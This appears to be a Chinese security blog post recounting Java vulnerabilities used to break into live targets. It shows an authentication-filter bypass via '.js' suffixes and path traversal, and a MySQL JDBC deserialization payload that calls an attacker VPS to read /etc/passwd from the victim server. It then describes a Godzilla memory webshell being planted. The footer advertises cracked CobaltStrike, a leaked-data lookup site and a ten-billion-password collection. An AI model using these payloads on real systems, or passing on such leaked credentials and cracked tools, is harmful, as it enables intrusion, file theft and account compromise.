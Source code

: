 #  最近打点用的一些java漏洞   
 进击的HACK   2024-12-12 23:55  
  
好久没写文章了，把最近打点审的几个漏洞分享一下。  
  
## filter权限绕过  
  
  
  
在 CurrentContextFilter 里，有四个关键方法。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7JEcvomvgSAweWrPzEY00pRxibx2HTSsE9YpgYmcnjxCeOePK8JTFV8A/640?wx_fmt=png&from=appmsg "")  
  
需要关注的方法，很明显可以看出，应该是：  
  
isExcludeResource(request.getRequestURI()) isStaticResource(request.getRequestURI()) isAnonPermission(request)  
  
从方法命名上可以看见分别代表含义 "是否排除的资源"、"是否是静态资源"、"是否是匿名权限"  
  
## 分析  
  
  
**isExcludeResource**  
  
isExcludeResource(request.getRequestURI()) 是判断当前url是否包含  
  
```
/xxxinterface/invoke
/metadata/xxx/findList"/ui/xxx/xxxLayoutPath"
/metadata/xxx/xxxColumns"/metadata/xxxx/xxxScene/ui/xxx/xxxPath
```  
  
  
  
如果包含以上值，则返回值是 true  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7zt27icJs5vyAwAHmv8q910t6b9JygmbZ7Uf1LCrUEvVHDIk5MmnuJNw/640?wx_fmt=png&from=appmsg "")  
  
**isStaticResource**  
  
  
isStaticResource(request.getRequestURI()) 是判断当前url是否包含****  
  
```
/static
/scripts
/css
.js
/js
.png
.jpg
/images
/fonts
.css
.html
/bpm/editor-app
.svg
.gif

```  
  
  
如果包含，返回值是 true  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7LAAwT6WwBN3d65ibqYTO5DkVN30yquaFnNmks0600cw0CqKh7BpO6fA/640?wx_fmt=png&from=appmsg "")  
  
在CurrentContextFilter里面，当两个方法返回值是true时，返回值是null。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7NhXcic4nAZib7Sf9pS0SxicF8TIgREwr2pRMT58Duhg3GRSluz8LDfxow/640?wx_fmt=png&from=appmsg "")  
  
在 dofilter 方法里面，也就是该 filter 触发时，如果当前 userAuthInfo 的值是 null，会直接去更新当前上下文 updateCurrentContext，也就是逻辑正常走完，没有中途通过 return 去退出。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7jDyFiaMSILftUOWeXt469XQPAic2MvgjShekoh8vV9qrqXQPk18nOfEQ/640?wx_fmt=png&from=appmsg "")  
  
**isAnonPermission**  
  
  
实际分析发现，此处是通过验证 redis 里面的 user-token 是否有效去验证用户权限的，因此不在分析范围内。  
  
## 漏洞验证  
  
  
直接访问某个接口的时候，会提示 Token is not present.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7jIiao7e51S6ezFBzCqc0WnY5RiaxtdhibbMicGQZ7x1MgrL643tjtuslAQ/640?wx_fmt=png&from=appmsg "")  
  
也就是在 getUserAuthInfo 方法里面执行到了下面这个位置  
  
如果想要跳过该 401 的提示，则需要将逻辑执行到上面的 return null 处。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7SiaTqsf5503QU36ic4IalTK3bPQvIDlkMwv1vl8icpaqAQJIshneHH3Ew/640?wx_fmt=png&from=appmsg "")  
  
此时就很清晰了，可以通过在 isStaticResource 方法或 isExcludeResource 方法去跳过该逻辑。  
  
以 isStaticResource 为例 也就是在当前的 url 里面添加静态资源或者添加某几个 url 即可绕过该限制。  
  
如通过在当前 url 添加静态资源后缀 js 时（;.js或者是#.js，#需要url编码为%23），即可绕过该 401 限制，回显数据。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7icQ2DnzLK3Cz85VZmZmnDoBsJPA1u9VUEzibUApLx3mAVXqHy1Z4Bj3g/640?wx_fmt=png&from=appmsg "")  
  
以 isExcludeResource 为例  
  
如在当前的 url 里面添加特殊的 url，再利用 ../ 去跨越路径也可以绕过。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7618M4ZHBC66Hk84BJQR2F7GQMx9HibiaSdQOYhZ1aAhzT2hjGutqVs5w/640?wx_fmt=png&from=appmsg "")  
  
其他情况？  
  
如果走 2 和 3 的逻辑，则 token 是在 redis 里面存着的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7JPNVSkD98dQ3znlOlF4RpLnOKSjTL9o33GnmlyibwJwGibC5BLiaWEibnQ/640?wx_fmt=png&from=appmsg "")  
  
这种情况无法去伪造，即便是 jwt 的密钥是硬编码的情况下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC74Ha7XKap2Yx2c0zLO9RDF9NNLRKIiaepibmwHsoaDkugzYBH9GvhVUIQ/640?wx_fmt=png&from=appmsg "")  
  
如果请求头里面的 token 是以 basic 为开始的，则有可能可以去伪造 token  
  
即 Authorization: Basic YWRtaW46MTIzNDU2  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7d0pyJtsibU4uXsmBibVboZXsz5b5GSRD7fobXXGqbqZIV4iaQZoUcv2Ag/640?wx_fmt=png&from=appmsg "")  
  
但暂时未在当前 jar 里面找到实现该逻辑的代码块。  
  
## Mysql jdbc反序列化  
  
  
在 DmXXXXController 里  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7avEibvEkqwlpEzSIbYQvhNWufzqjhOExvGAK7KR9NpbLyOvZ7tKboNQ/640?wx_fmt=png&from=appmsg "")  
  
在 DmXXXServiceImpl 里面找到 importDmByJdbc 的实现方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7QqCicwwq8Jibxo15OMxYBoibxNBZP59Yf7IDJLMDyiczqN66lC8zDXqAkA/640?wx_fmt=png&from=appmsg "")  
  
再跟入到 JdbcUtils.getMetaTableList 里面看见了 DriverManager.getConnection，且 url 可控和 lib 目录下存在 mysql-connector-java-8.0.14.jar，也就能打mysql jdbc反序列化漏洞了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7micMe2t3K3VnBSAHLaoQG4rYGib34nB5kcbwpWIjQ9104rtxb9wVH7ZQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7FBOC9eMXjrv9NgOnd4OHFJCeSQp2ysDDo6GyFYqJXjcXWiaFZBdtUibA/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞验证  
  
  
构造读取 /etc/passwd 的 payload  
  
```
{"url":"jdbc:mysql://x.x.x.x:3308/test?user=base64ZmlsZXJlYWRfL2V0Yy9wYXNzd2Q=","user":"base64ZmlsZXJlYWRfL2V0Yy9wYXNzd2Q=","pwd":"123","appCode":"admin"}

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC71MQIWnJoqAL21tHpH6Wu88przmvCFGiazReloTH9nARBYtJv8u13UBg/640?wx_fmt=png&from=appmsg "")  
  
vps 上收到请求  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7CIicJ2h4C1zQegeb4sUMMt8mf578dcoSKQ8CIhlXGI5COTrt37Ckpkw/640?wx_fmt=png&from=appmsg "")  
  
然后就成功读取到对方 linux 服务器上的文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7QWtx1I7xdJYL4z2EotnBCGiamMvKYxp6VJguQbbgc8Lc9zdMvSbqfdg/640?wx_fmt=png&from=appmsg "")  
  
此时尝试打内存马，用的cb链生成的哥斯拉内存马。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7hD3jm8WibaLIgrPLleE5UUeJMicfER30cnhLuaiaHqlyvxIYB0MzYKJ8g/640?wx_fmt=png&from=appmsg "")  
  
发包后服务器收到请求  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7xfOCNMcFibzGeA7bndvbvQvOvOt6Ktqe43ssFwQpuPx1GKIZ3GB8Spg/640?wx_fmt=png&from=appmsg "")  
  
哥斯拉尝试连接，并连接成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7fWKGfCwGo66BiaiabpNU1s8MmNkMybbu7Ygic7nG661vqr2ubTs65U1BQ/640?wx_fmt=png&from=appmsg "")  
  
## Fastjson+groovy反序列化  
  
  
此处也能通过 fastjson+groovy 去打内存马  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7kOf50qnb3wVFG63PLV8sevUuv2PqX2nQ22KzZ7CP4XGVK4b0fPUCOQ/640?wx_fmt=png&from=appmsg "")  
  
且存在 groovy 的依赖  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7WzpY2pX5No7FWqzUWe2lcORcv12ibyb0AMX6T0DdDES6eyu8zNrHZqw/640?wx_fmt=png&from=appmsg "")  
  
## 总结  
  
  
多审计 day，打点才能事半功倍。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HWREJselCribXKZnW4g6I2gicDlib73KLnWBMib7xPga814txqfxcPWBtkYhkXX3BVdG42szWtx3eib5YmzeeuoibE1Q/640?wx_fmt=png "")  
  
关注公众号后台回复 0001  
 领取域渗透思维导图，0002  
 领取VMware 17永久激活码，0003  
 获取SGK地址，0004  
 获取在线ChatGPT地址，0005  
 获取 Windows10渗透集成环境  
，0006  
 获取 CobaltStrike 4.9.1破解版  
，  
0007  
 获取  
100亿密码合集  
  
  
  
  
  
加我微信好友，邀请你进交流群  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaHPCQdRh2mD7k15P3gvI6IxzUohyGZicOqn7LDO0yXmtSuZtNh9gWULo1m2N435YwLmtlMFQibzTAuB4d4dMbjMw/640?wx_fmt=png "")  
  
  
备用号，欢迎关注  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/MfTd6rd9CyvNRMW8I9cvI1CK5gKiaYqg2veTn9t9dAe1GxYic7pAvgvRIKNFickConFyX8AvW2reAq8GchJI6aBpA/640?wx_fmt=gif "")  
  
  
  
